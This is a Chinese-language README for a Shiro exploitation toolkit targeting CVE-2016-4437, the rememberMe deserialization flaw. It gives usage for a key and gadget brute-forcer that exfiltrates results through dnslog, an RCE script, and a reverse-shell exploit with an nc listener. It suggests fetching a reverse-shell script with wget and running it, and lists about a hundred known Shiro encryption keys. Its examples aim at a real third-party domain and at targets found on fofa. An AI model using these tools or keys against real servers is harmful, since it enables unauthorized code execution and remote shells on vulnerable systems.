 ## Awesome-shiro

CVE-2016-4437 Shiro&lt;=1.2.4反序列化，爆破模块和key、代码执行、反弹shell的工具

----

## 漏洞原因
因为shiro对cookie里的rememberme字段进行了反序列化，所以如果知道了shiro的编码方式，然后将恶意命令用它的编码方式进行编码并放在http头的cookie里，在shiro对提交的cookie的rememberme字段进行反序列化时，也就执行了插入的命令，最终造成了命令执行

shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：
`得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化 `

## 环境
linux/win10 均可
python2/python3 均可
由于module下有ysoserial.jar 所以项目略大，多多包涵
## 本地搭建靶场
```
docker pull medicean/vulapps:s_shiro_1
docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
```
## 脚本使用
#### 1、shiro_crack.py 爆破模块使用
需要结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do 1695jb.dnslog.cn
```
成功后查看记录-记录格式为 {key}.{{module}}.dnslogurl
```
U3ByaW5nQmxhZGUAAAAAAA.CommonsBeanutils1.x9zm4v.dnslog.cn
```
可知成功的key为`U3ByaW5nQmxhZGUAAAAAAA==`,模块为`CommonsBeanutils1`
因为key中包含==/+等符号，本项目会转义一丢丢。需自行对比附录1的key
fofa上找一个玩玩
![](./img/1.png)
![](./img/2.png)
##### shiro_crack.py 原理
其实网上有很多爆破模块和key的工具，但是爆破成功后一般只是打通，并不知道模块和key是什么，因为对于无回显的rce，无论通没通，响应码均为200。
本项目通过爆破模块和key结合dnslog间接获取成功的key和模块，原理即为DNSlog的内涵，Dns在解析的时候会留下日志，通过读取多级域名的解析日志，获取请求信。

### 2、shiro_rce.py rce使用
可结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do "ping rcetest.x9zm4v.dnslog.cn"
```
dnslog查看到`ping rcetest.x9zm4v.dnslog.cn` 为了区分，建议用更低一级的域名
#### shiro_rce 配置
1、配置模块
需要将第13行 
``` popen = subprocess.Popen(['java', '-jar', '../module/ysoserial.jar', 'CommonsBeanutils1', command], stdout=subprocess.PIPE)```其中的CommonsBeanutils1改为爆破成功用的模块
2、配置key
将第16行

 ```
key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==") 
```

改成爆破成功的key
fofa上找一个玩
![](./img/3.png)
![](./img/4.png)

### 3、shiro_getshell 反弹shell
```
nc -lvnp 7777
python3 shiro_exp.py -u {{攻击的靶机}} -lh {{反弹shell的ip}} -lp {{反弹shell的端口}}
```
为了安全，还是打本地
原理即是把JRMPListener和payload打包丢一起了，其实讲道理可以不用jrmplistener


#### shiro_getshell测试：

![](./img/5.png)

---
一点小想法
既然可以出网，为啥不能直接用shiro_rec,`bash反弹shell`嘞
试过几次失败，我感觉是shiro有啥过滤，但是我发现可以先wget下载一个反弹shell的sh脚本，然后sh执行
参考[自己不用jrmplistener反弹shell的一点小研究](https://st4ck.gitee.io/2020/04/24/apache-shiro-1-2-4-fan-xu-lie-hua-lou-dong-cve-2016-4437-fu-xian-yu-dao-de-keng/)

---

### 4、fuzz-shiro
根据请求头，响应头做一个简单的测试

## 常见问题
### 1、win10下运行时出现 No module named 'Crypto'
运行如下命令：
```
pip uninstall crypto pycryptodome
pip install pycryptodome
```
python安装目录下的\Lib\site-packages，将crypto文件夹的名字改成Crypto。

## 附录1、shiro常用key
```
kPH+bIxk5D2deZiIxcaaaA==
4AvVhmFLUs0KTA3Kprsdag==
Z3VucwAAAAAAAAAAAAAAAA==
fCq+/xW488hMTCD+cmJ3aQ==
0AvVhmFLUs0KTA3Kprsdag==
1AvVhdsgUs0FSA3SDFAdag==
1QWLxg+NYmxraMoxAXu/Iw==
25BsmdYwjnfcWmnhAciDDg==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
3JvYhmBLUs0ETA5Kprsdag==
r0e3c16IdVkouZgk1TKVMg==
5aaC5qKm5oqA5pyvAAAAAA==
5AvVhmFLUs0KTA3Kprsdag==
6AvVhmFLUs0KTA3Kprsdag==
6NfXkC7YVCV5DASIrEm1Rg==
6ZmI6I2j5Y+R5aSn5ZOlAA==
cmVtZW1iZXJNZQAAAAAAAA==
7AvVhmFLUs0KTA3Kprsdag==
8AvVhmFLUs0KTA3Kprsdag==
8BvVhmFLUs0KTA3Kprsdag==
9AvVhmFLUs0KTA3Kprsdag==
OUHYQzxQ/W9e/UjiAGu6rg==
a3dvbmcAAAAAAAAAAAAAAA==
aU1pcmFjbGVpTWlyYWNsZQ==
bWljcm9zAAAAAAAAAAAAAA==
bWluZS1hc3NldC1rZXk6QQ==
bXRvbnMAAAAAAAAAAAAAAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
wGiHplamyXlVB11UXWol8g==
U3ByaW5nQmxhZGUAAAAAAA==
MTIzNDU2Nzg5MGFiY2RlZg==
L7RioUULEFhRyxM7a2R/Yg==
a2VlcE9uR29pbmdBbmRGaQ==
WcfHGU25gNnTxTlmJMeSpw==
OY//C4rhfwNxCQAQCrQQ1Q==
5J7bIJIV0LQSN3c9LPitBQ==
f/SY5TIve5WWzT4aQlABJA==
bya2HkYo57u6fWh5theAWw==
WuB+y2gcHRnY2Lg9+Aqmqg==
kPv59vyqzj00x11LXJZTjJ2UHW48jzHN
3qDVdLawoIr1xFd6ietnwg==
ZWvohmPdUsAWT3=KpPqda
YI1+nBV//m7ELrIyDHm6DQ==
6Zm+6I2j5Y+R5aS+5ZOlAA==
2A2V+RFLUs+eTA3Kpr+dag==
6ZmI6I2j3Y+R1aSn5BOlAA==
SkZpbmFsQmxhZGUAAAAAAA==
2cVtiE83c4lIrELJwKGJUw==
fsHspZw/92PrS3XrPW+vxw==
XTx6CKLo/SdSgub+OPHSrw==
sHdIjUN6tzhl8xZMG3ULCQ==
O4pdf+7e+mZe8NyxMTPJmQ==
HWrBltGvEZc14h9VpMvZWw==
rPNqM6uKFCyaL10AK51UkQ==
Y1JxNSPXVwMkyvES/kJGeQ==
lT2UvDUmQwewm6mMoiw4Ig==
MPdCMZ9urzEA50JDlDYYDg==
xVmmoltfpb8tTceuT5R7Bw==
c+3hFGPjbgzGdrC+MHgoRQ==
ClLk69oNcA3m+s0jIMIkpg==
Bf7MfkNR0axGGptozrebag==
1tC/xrDYs8ey+sa3emtiYw==
ZmFsYWRvLnh5ei5zaGlybw==
cGhyYWNrY3RmREUhfiMkZA==
IduElDUpDDXE677ZkhhKnQ==
yeAAo1E8BOeAYfBlm4NG9Q==
cGljYXMAAAAAAAAAAAAAAA==
2itfW92XazYRi5ltW0M2yA==
XgGkgqGqYrix9lI6vxcrRw==
ertVhmFLUs0KTA3Kprsdag==
5AvVhmFLUS0ATA4Kprsdag==
s0KTA3mFLUprK4AvVhsdag==
hBlzKg78ajaZuTE0VLzDDg==
9FvVhtFLUs0KnA3Kprsdyg==
d2ViUmVtZW1iZXJNZUtleQ==
yNeUgSzL/CfiWw1GALg6Ag==
NGk/3cQ6F5/UNPRh8LpMIg==
4BvVhmFLUs0KTA3Kprsdag==
MzVeSkYyWTI2OFVLZjRzZg==
CrownKey==a12d/dakdad
empodDEyMwAAAAAAAAAAAA==
A7UzJgh1+EWj5oBFi+mSgw==
YTM0NZomIzI2OTsmIzM0NTueYQ==
c2hpcm9fYmF0aXMzMgAAAA==
i45FVt72K2kLgvFrJtoZRw==
U3BAbW5nQmxhZGUAAAAAAA==
ZnJlc2h6Y24xMjM0NTY3OA==
Jt3C93kMR9D5e8QzwfsiMw==
MTIzNDU2NzgxMjM0NTY3OA==
vXP33AonIp9bFwGl7aT7rA==
V2hhdCBUaGUgSGVsbAAAAA==
Z3h6eWd4enklMjElMjElMjE=
Q01TX0JGTFlLRVlfMjAxOQ==
ZAvph3dsQs0FSL3SDFAdag==
Is9zJ3pzNh2cgTHB4ua3+Q==
NsZXjXVklWPZwOfkvk6kUA==
GAevYnznvgNCURavBhCr1w==
66v1O8keKNV3TTcGPK1wzg==
SDKOLKn2J1j/2BHjeZwAoQ==
```
